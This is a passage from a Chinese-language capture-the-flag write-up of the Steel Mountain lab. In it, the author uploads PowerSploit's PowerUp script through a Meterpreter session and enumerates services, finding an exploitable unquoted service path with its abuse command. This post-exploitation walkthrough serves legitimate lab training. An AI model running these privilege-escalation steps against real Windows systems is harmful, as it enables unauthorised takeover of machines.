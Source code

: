 ```
[redacted]
```

## 后剥削

有了远程计算机的 shell，我可以继续进行更多关于它的“有趣”的活动，比如后门和抢劫。但是在我这样做之前，我需要有管理员甚至系统特权。

不幸的是，我还没有这样的特权:

```
**meterpreter > getuid**
Server username: STEELMOUNTAIN\bill
```

为了升级权限，我将使用[《powershell mafia》(2017)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)开发的 *PowerUp* 脚本来枚举系统。我将它下载到我的攻击箱，然后上传到 boot2root 机器:

```
**meterpreter > upload ~/steelmountain/PowerUp.ps1** .
[*] uploading : ~/steelmountain/PowerUp.ps1 -> .
[*] uploaded : ~/steelmountain/PowerUp.ps1 -> .\PowerUp.ps1
**meterpreter > pwd**
C:\Users\bill\Desktop
**meterpreter > ls**
Listing: C:\Users\bill\Desktop
==============================Mode   Size   Type   Last modified   Name
----   ----   ----   --------------  ----
100666/rw-rw-rw- 600580 fil [redacted] -0500 PowerUp.ps1
100666/rw-rw-rw- 282 fil 2019–09–27 07:07:07 -0400 desktop.ini
100666/rw-rw-rw- 70 fil 2019–09–27 08:42:38 -0400 user.txt
```

现在，我开始用*加电*脚本列举系统:

```
**[1] meterpreter > load powershell**
Loading extension powershell… Success.
**[2] meterpreter > powershell_shell**
**[3] PS > pwd**Path
----
C:\Users\bill\Desktop**[4] PS > . .\PowerUp.ps1**
**[5] PS > Invoke-AllChecks**ServiceName           : AdvancedSystemCareService9
Path                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath        : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName             : LocalSystem
AbuseFunction         : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart            : True
Name                  : AdvancedSystemCareService9
Check                 : Unquoted Service Paths[… snip …]
```

我首先加载了 Meterpreter 的`powershell`扩展(Cmd。1)，进入 PowerShell 环境(Cmd。2)只是想确保我在`bill`的桌面文件夹(Cmd。3).然后，我从*加电*脚本(Cmd)加载功能。4)并继续列举系统中的服务(Cmd。5).

